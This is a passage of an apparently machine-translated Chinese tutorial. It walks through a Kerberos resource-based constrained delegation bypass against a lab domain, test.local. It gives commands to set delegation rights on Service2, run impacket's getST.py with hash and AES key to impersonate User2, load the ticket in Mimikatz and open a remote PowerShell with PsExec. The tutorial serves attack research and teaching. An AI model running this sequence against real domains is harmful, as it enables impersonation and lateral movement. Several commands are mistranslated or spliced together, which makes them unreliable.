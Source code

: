 
执行：

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV1HP6x27j2AEJWFaZ8SxgE8dBC8ibqjVdLFjoSJR9XMIhhWtuD9dFTar0gaOZPdVLO46FqsJBhg1kA/640?wx_fmt=png)

确认机器帐户的存在之后，我们可以在 Service2 和 AttackerService 之间建立约束委派信任关系。由于 User1（我们的受控立足帐户）对 Service2 对象具有写权限，因此我们可以将 AttackerService 添加到 Service2 的 PrincipalsAllowedToDelegateToAccount 列表中。这将在 Service2 上建立基于资源的约束委派，并从 AttackerService 接受约束委派。完成此步骤后，我们就满足了攻击路径第 3 步的条件。

命令：

*   Set-ADComputer Service2 -PrincipalsAllowedToDelegateToAccount AttackerService $
    
*   Get-ADComputer Service2 - 属性主体 AllowedToDelegateToAccount
    

执行：

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV1HP6x27j2AEJWFaZ8SxgE8Kt14OC7sS7mnVehGrQLIp5rAzHKG4bgQybEQdf2KtWAashxagPibwcg/640?wx_fmt=png)

我们准备继续执行攻击路径的第 4 步并执行漏洞利用。我们将使用与上一个示例相同的命令，但是这次指定 AttackerService 而不是 Service1，并且使用 Mimikatz 计算哈希值。当在命令中包含 -force-forwardable 标志时，我们将看到与上一个示例相同的结果。执行漏洞利用，设置可转发标志，并将作为 User2 的 Service2 的服务票证写入 User2.ccache 的磁盘。

命令：

*   蟒蛇 \ impacket \ 例子 \ getST.py -spn CIFS / Service2.test.local -impersonate 用户 2 -hashes 830f8df592f48bc036ac79a2bb8036c5：830f8df592f48bc036ac79a2bb8036c5 -aesKey 2a62271bdc6226c1106c1ed8dcb554cbf46fb99dda304c472569218c125d9ffc test.local / AttackerService -force-forwardableet-ADComputer 客服 2 -PrincipalsAllowedToDelegateToAccount AttackerService $
    

执行：

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV1HP6x27j2AEJWFaZ8SxgE8Matw2icCHW8hQVOzWNXAFPIeBJoB8jicvQwWDEZExYC9QNQMrBSg9wicQ/640?wx_fmt=png)

现在，我们可以简单地重复上一个示例中的最终命令。通过使用 Mimikatz 将服务票证加载到我们的本地 Kerberos 票证缓存中，我们将为攻击路径的第 5 步做准备。然后，我们将通过与 Service2 进行交互（模拟 User2）来执行步骤 5。

命令：

*   。\ mimikatz \ mimikatz.exe “kerberos :: ptc User2.ccache” 出口 | 空空
    
*   ls \\ service2.test.local \ c $
    
*   。\ PSTools \ PsExec64.exe \\ service2.test.local \ powershell.exe
    
*   我是谁
    
*   主机名
    

执行：

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV1HP6x27j2AEJWFaZ8SxgE8g03iatuibWDvypVqDbUXXEibgd6wxgVCxCNWOa2Sg7IHicjpVYic7TBTXjg/640?wx_fmt=png)

就这样！通过我们对 Service2 AD 对象的立足点和写许可权，我们已经使用了应该受到这种委托保护的用户权限来破坏服务。